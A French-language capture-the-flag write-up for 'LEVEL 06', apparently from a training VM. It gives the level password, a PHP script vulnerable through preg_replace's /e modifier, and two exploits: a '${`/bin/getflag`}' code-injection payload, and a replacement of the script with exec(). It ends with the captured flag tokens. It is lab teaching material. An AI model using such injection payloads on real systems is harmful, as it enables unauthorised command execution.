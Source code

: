 # LEVEL 06

**LOGIN: level06**

**PASSWORD: viuaaale9huek52boumoomioc**

 ----
 
 
 ```
ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

Ici j'ai trouvé deux exploits, le premier avec le code php, le deuxieme dans le binaire c: 

#### Premier exploit
``` 
cat level06.php 
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```


ARVG2 n'est jamais utilisé. 
La fonction y() ne sert a rien car elle est appelée ici :  `"y(\"\\2\")"` et il n'y a pas de `.` ni de `@`.
Seulement le premier appel à `preg_replace` dans `x()` nous intérrese. 
On peut donc resumer le code comme ceci :
```
function x($y) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "\"\\2\"", $a); return $a; }
$r = x($argv[1]); print $r;
```
L'exploit se trouve dans l'option `e` de `preg_replace`.
*[ e doesn't just execute anything you pass to it. It only executes those parts of the input that match the regex and are then used in the replacement via back references.](https://security.stackexchange.com/questions/151142/understanding-preg-replace-filtering-exploitation)*

```
echo '[x ${`/bin/getflag`} ]' > exploit.txt
chmod 777 exploit.txt
./level06 exploit.txt
Check flag.Here is your token : wiok45aaoguiboiki2tuin6
```

#### Deuxieme exploit

Le binaire `level06` est un code en C. un strace nous montre qu'il appelle le script php : 

`execve("/usr/bin/php", ["/usr/bin/php", "/home/user/level06/level06.php", "", ""], [/* 27 vars */]) = 0`

exploit : 
```
rm level06.php
vim level06.php
#!/usr/bin/php
<?php
exec("/bin/getflag > /tmp/exploit");
?>
exit.

./level06 file1 file2
cat /tmp/exploit
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

**TOKEN: wiok45aaoguiboiki2tuin6ub**
